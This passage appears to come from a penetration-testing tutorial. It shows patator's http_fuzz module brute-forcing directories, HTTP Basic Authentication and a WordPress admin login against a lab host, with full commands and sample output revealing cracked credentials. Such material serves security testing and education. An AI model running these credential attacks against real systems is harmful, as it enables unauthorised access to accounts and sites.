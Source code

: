 
### HTTP/HTTPS
In order to perform an HTTP/HTTPS credentials bruteforce we are going to
use the `http_fuzz` module.

#### Basic usage
A basic HTTP/S example in order to use patator as a sort of resource/directory buster.
```sh
./patator.py http_fuzz url=http://192.168.0.7/FILE0 0=list.txt follow=1 -x ignore:code=404 -x ignore,retry:code=500
```
What happens here is that:

- `follow=1`: we are following eventual redirects
- `-x ignore:code=404`: we ignore 404 response code pages
- `-x ignore,retry:code=500`: we retry when code 500 is used

 
#### HTTP Basic Authentication
```sh
./patator.py http_fuzz url=http://192.168.0.7:80/ user_pass=FILE0:FILE1 0=user.txt 1=pass.txt -x ignore:code=401
 ```
 
Example output:
```
15:38:17 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-08-09 15:38 CEST
15:38:17 patator    INFO -                                                                              
15:38:17 patator    INFO - code size:clen       time | candidate                          |   num | mesg
15:38:17 patator    INFO - -----------------------------------------------------------------------------
15:38:17 patator    INFO - 200  10956:10701    0.022 | test:root                          |    18 | HTTP/1.1 200 OK
15:38:18 patator    INFO - Hits/Done/Skip/Fail/Size: 1/81/0/0/81, Avg: 133 r/s, Time: 0h 0m 0s
```
#### Wordpress Admin Login
```sh
./patator.py http_fuzz url=http://192.168.0.7/wp-login.php method=POST body='log=FILE0&pwd=FILE1' 0=user.txt 1=pass.txt -x ignore:egrep='200'

```
Example output:
```
16:53:25 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-08-09 16:53 CEST
16:53:25 patator    INFO -                                                                              
16:53:25 patator    INFO - code size:clen       time | candidate                          |   num | mesg
16:53:25 patator    INFO - -----------------------------------------------------------------------------
16:53:26 patator    INFO - 302  1015:0         0.384 | test:root                          |    18 | HTTP/1.1 302 Found
16:53:28 patator    INFO - Hits/Done/Skip/Fail/Size: 1/81/0/0/81, Avg: 26 r/s, Time: 0h 0m 3s
```
